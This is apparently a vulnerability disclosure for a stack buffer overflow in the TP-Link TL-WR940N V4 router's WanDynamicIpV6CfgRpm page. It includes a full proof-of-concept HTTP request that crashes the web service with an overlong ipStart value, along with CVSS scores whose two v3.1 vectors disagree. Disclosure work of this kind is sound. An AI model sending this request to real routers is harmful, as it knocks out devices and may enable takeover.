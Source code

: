 # TP-Link TL-WR940N wireless router /userRpm/WanDynamicIpV6CfgRpm buffer write out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer write out-of-bounds
- Vulnerability Description: A buffer write-out vulnerability exists in TP-Link TL-WR940N wireless router, firmware version V4. Its /userRpm/WanDynamicIpV6CfgRpm implementation has a security vulnerability in handling the ipStart GET key parameter, allowing remote attackers to submit special requests that can cause buffer out-of-bounds write errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
   - TP-Link TL-WR940N V4

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1：[9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service  
   - Remote Code Execution(RCE)

## 3 PoC

The PoC of TP-Link TL-WR940N is as follows:

```http
GET /RKIMKONAENVJOZYB/userRpm/WanDynamicIpV6CfgRpm.htm?ipv6Enable=on&wantype=2&ipType=2&mtu=1480&dnsType=0&ipAssignType=0&ipStart=1000aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&ipEnd=2000&time=86400&ipPrefixType=0&staticPrefix=&staticPrefixLength=64&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/RKIMKONAENVJOZYB/userRpm/WanDynamicIpV6CfgRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/WanDynamicIpV6CfgRpm component implements a security vulnerability in processing the ipStart GET key parameter. The length of the parameter key of ipStart can be any length and it is put into the stack without any boundary check, resulting in a write out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:

![](./imgs/before1.png)

![](./imgs/before2.png)

![](.imgs/web.png)

After sending the PoC, the ipStart parameter value is too long, which leads to the write out of bounds, causing a fatal memory error, and a BadVA error, which leads to the service crash.

![](./imgs/write_err.png)

![](./imgs/after.png)

![](./imgs/after2.png)

![](./imgs/err.png)


## 5. The basis for judging as a 0-day vulnerability

Search the WanDynamicIpV6CfgRpm keyword in the NVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).

Search the WanDynamicIpV6CfgRpm keyword in the CNVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).